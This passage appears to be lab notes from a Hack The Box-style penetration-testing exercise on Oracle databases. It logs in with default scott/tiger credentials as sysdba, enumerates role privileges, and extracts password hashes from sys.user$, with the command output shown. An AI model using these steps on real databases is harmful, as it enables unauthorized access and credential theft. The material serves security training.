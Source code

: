 ```shell
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```
#### Oracle RDBMS - Database Enumeration :
```shell
Pwn1Sec@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

#### Oracle RDBMS - Extract Password Hashes :
```shell
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
```